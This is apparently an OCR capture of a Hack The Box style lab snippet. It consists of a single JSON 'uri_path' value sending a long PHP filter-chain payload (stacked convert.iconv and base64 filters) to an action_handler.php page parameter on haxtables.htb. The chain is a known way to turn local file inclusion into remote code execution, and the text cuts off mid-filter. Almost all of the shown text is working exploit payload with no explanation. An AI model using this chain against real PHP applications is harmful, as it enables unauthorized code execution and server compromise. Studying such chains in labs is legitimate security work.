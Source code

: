 ```Bash
  "uri_path": "test@image.haxtables.htb/actions/action_handler.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base6
```